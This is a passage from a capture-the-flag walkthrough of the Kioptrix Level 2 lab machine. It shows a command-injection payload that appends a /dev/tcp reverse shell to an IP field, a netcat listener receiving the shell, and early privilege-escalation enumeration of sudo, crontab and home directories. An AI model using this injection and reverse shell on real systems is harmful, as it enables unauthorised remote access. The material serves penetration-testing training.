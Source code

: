 ```
127.0.0.1; sh -i >& /dev/tcp/192.168.0.164/4444 0>&1
```

And along with that we need to start a listener to get the reverse shell

```bash
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv2]
└─$ nc -nvlp 4444                
listening on [any] 4444 ...
connect to [192.168.0.164] from (UNKNOWN) [192.168.0.191] 32769
sh: no job control in this shell
sh-3.00$ whoami
apache
sh-3.00$ hostname
kioptrix.level2
```

Now, as this is a dumb shell we can upgrade it using the method explained over [here](https://0xnirvana.medium.com/tryhackme-convertmyvideo-eb2a1f8dd747).

## Privilege Escalation

The first thing that we can check for are the commands that our user could run with `sudo` privileges using the command `sudo -l` but it asks for password which we don't know.

The next thing that we can check is if any cronjob is running on the system

```bash
bash-3.00$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
HOME=/

# run-parts
01 * * * * root run-parts /etc/cron.hourly
02 4 * * * root run-parts /etc/cron.daily
22 4 * * 0 root run-parts /etc/cron.weekly
42 4 1 * * root run-parts /etc/cron.monthly
```

But we can't see any such suspicious cronjob running over here. 

We can also check if there are any other users on the system and if we can access their directories. 

```bash
bash-3.00$ cd /home
bash-3.00$ ls -la
total 24
drwxr-xr-x   4 root   root   4096 Oct 12  2009 .
drwxr-xr-x  23 root   root   4096 Apr 29 03:09 ..
drwx------   2 harold harold 4096 Oct 12  2009 harold
drwx------   2 john   john   4096 Oct  8  2009 john
bash-3.00$ cd harold/
bash: cd: harold/: Permission denied
bash-3.00$ cd john/
bash: cd: john/: Permission denied
```

